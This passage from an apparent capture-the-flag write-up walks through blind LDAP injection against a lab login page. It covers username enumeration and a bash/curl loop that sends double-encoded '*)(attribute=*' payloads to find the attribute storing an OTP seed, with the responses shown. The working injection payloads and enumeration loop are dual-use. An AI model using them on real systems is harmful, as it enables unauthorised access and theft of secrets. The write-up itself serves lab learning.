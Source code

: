 ```
    User v%2a not found    </div>
    User w%2a not found    </div>
    User x%2a not found    </div>
    User y%2a not found    </div>
    User z%2a not found    </div>  

```

Based on that result, the username starts with “l”. Now I have a method to brute force the username. I could continue to brute for using bash, but I’m going to write something in python in a minute.

### Leak OTP Seed

#### Identify Attribute

The comment on the page said that the token string is stored in an already existing schema element. I wrote a query that would check that an attribute had something in it. Then I started with [this list](http://www.zytrax.com/books/ldap/ape/) and made a list of the ones that seemed like they could hold an 81 digit numerical value:

```

root@kali# cat ldap_elements 
fascimileTelephonenNumer
homePhone
mail
mobile
pager
street
userPassword

```

Then I wrote a loop to to check each one in this query:

```
*)(${attrib}=*

```

That would make the query on CTF look something like:

```

&(uid=*)(${attrib}=*)

```

That would return true if the attribute had anything in it:

```

root@kali# for attrib in $(cat ldap_elements); do echo -n "${attrib}   "; curl -s http://10.10.10.122/login.php -d "inputUsername=%252a%2529%2528${attrib}%253d%252a&inputOTP=" | grep -A1 '<div class="col-sm-10">' | grep '</div>'; done
fascimileTelephonenNumer       User %2a%29%28fascimileTelephonenNumer%3d%2a not found    </div>
homePhone       User %2a%29%28homePhone%3d%2a not found    </div>
mail       Cannot login    </div>
mobile       User %2a%29%28mobile%3d%2a not found    </div>
pager       Cannot login    </div>                  
street       User %2a%29%28street%3d%2a not found    </div>
userPassword       Cannot login    </div>

```
